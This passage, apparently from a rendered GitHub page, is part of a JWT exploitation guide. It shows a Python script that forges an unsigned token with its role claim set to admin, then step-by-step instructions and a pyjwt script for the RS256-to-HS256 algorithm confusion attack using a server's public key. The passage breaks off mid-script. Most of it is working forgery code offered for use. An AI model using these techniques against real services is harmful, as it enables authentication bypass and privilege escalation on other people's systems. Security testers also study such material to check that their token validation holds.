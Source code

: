        # Decode payload and modify claims
       payload = json.loads(base64.urlsafe_b64decode(payload_b64 + "=" * (4 - len(payload_b64) % 4)).decode())
       payload["role"] = "admin"
       
       # Encode header and payload
       new_header_b64 = base64.urlsafe_b64encode(json.dumps(header).encode()).decode().rstrip("=")
       new_payload_b64 = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode().rstrip("=")
       
       # Create new token with empty signature
       new_jwt = f"{new_header_b64}.{new_payload_b64}."
       
       print(new_jwt)
       ```

    2. **Algorithm confusion attack (RS256 to HS256)**:
       - Step 1: Identify a JWT signed with RS256 (asymmetric RSA)
       - Step 2: Obtain the server's public key (from certificate, JWK endpoint, etc.)
       - Step 3: Change the algorithm in the header from RS256 to HS256
       - Step 4: Modify payload claims as desired
       - Step 5: Sign the token using the public key as the HMAC secret
       - Step 6: Send the modified token to the server
       - Example: Change `{"alg":"RS256","typ":"JWT"}` to `{"alg":"HS256","typ":"JWT"}`
       - Exploitation insight: Server may verify HS256 signature using the public key as the secret
       - Python script with pyjwt:
       ```python
       import jwt
       
       # Original JWT signed with RS256
       original_jwt = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOmZhbHNlLCJpYXQiOjE1MTYyMzkwMjJ9.signature"
       
       # Public key obtained from server (PEM format)
       public_key = """-----BEGIN PUBLIC KEY-----
       MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAu1SU1LfVLPHCozMxH2Mo
       4lgOEePzNm0tRgeLezV6ffAt0gunVTLw7onLRnrq0/IzW7yWR7QkrmBL7jTKEn5u
       +qKhbwKfBstIs+bMY2Zkp18gnTxKLxoS2tFczGkPLPgizskuemMghRniWaoLcyeh
       kd3qqGElvW/VDL5AaWTg0nLVkjRo9z+40RQzuVaE8AkAFmxZzow3x+VJYKdjykkJ
       0iT9wCS0DRTXu269V264Vf/3jvredZiKRkgwlL9xNAwxXFg0x/XFw005UWVRIkdg
       cKWTjpBP2dPwVZ4WWC+9aGVd+Gyn1o0CLelf4rEjGoXbAAEgAqeGUxrcIlbjXfbc
       mwIDAQAB
       -----END PUBLIC KEY-----"""
       
       # Decode the JWT to access the payload
       payload = jwt.decode(original_jwt, options={"verify_signature": False})
       